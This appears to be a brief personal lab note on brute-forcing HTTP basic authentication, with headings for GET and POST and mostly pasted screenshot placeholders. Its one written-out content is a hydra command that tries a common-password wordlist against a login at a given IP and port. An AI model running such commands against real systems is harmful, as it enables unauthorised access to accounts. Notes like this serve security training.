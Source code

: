 ___

# GET

![[Pasted image 20241004131226.png]]

![[Pasted image 20241004131402.png]]

![[Pasted image 20241004131415.png]]

```shell-session
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 83.136.254.47 http-get / -s 52283
```

![[Pasted image 20241004131840.png]]

![[Pasted image 20241004132934.png]]

# POST

![[Pasted image 20241004134542.png]]





